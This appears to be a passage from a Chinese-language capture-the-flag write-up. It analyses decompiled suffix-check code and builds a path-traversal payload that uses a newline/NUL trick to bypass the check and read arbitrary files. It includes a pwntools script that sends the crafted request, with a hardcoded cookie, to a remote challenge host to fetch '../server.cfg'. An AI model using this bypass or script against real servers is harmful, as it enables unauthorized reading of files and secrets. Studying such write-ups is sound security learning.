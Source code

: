 接下来就想想如何bypass后缀名，
```
if ( !off_603160[2 * l] )
	goto LABEL_49;
v3 = (signed int)strlen(off_603160[2 * l]);
v4 = off_603160[2 * l];
v5 = strlen(file);
if ( !strncmp(&file[v5 - v3], v4, v3) )
	break;
```

这串是后缀判断的代码，按照前面bypass`..`的情况，`v5=0`, `v3 == 2 || v3 == 3`, 所以进行比较的字符串为`file[-2] || file[-3]`

```
file = (char *)&unk_605244;
```

所以我们可以构造出一个payload:`getz\n../xxx` (PS: `\0`需要通过`\n`或者`\r`进行转换)
那么我们可以得到：
```
file = "\0../xxx"
file[1:] = "../xxx"
file[-2] = "tz"
```

完美绕过所以判断，可以进行任意文件读取，payload：
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *

context.log_level='debug'
r = remote('123.59.56.23', 43481)
payload = "GEtz\n../server.cfg\nHTTP/1.0 Cookie: auth=BAjSrP9/AABm7NKs/38AAFgE0qz/fwAAEsjSrP9/AAA"
r.send(payload)
while True:
	r.recv()
```

flag就在`../server.cfg`文件中

做完这题后发现自己的逆向能力还是太差了，以后多做写逆向题....

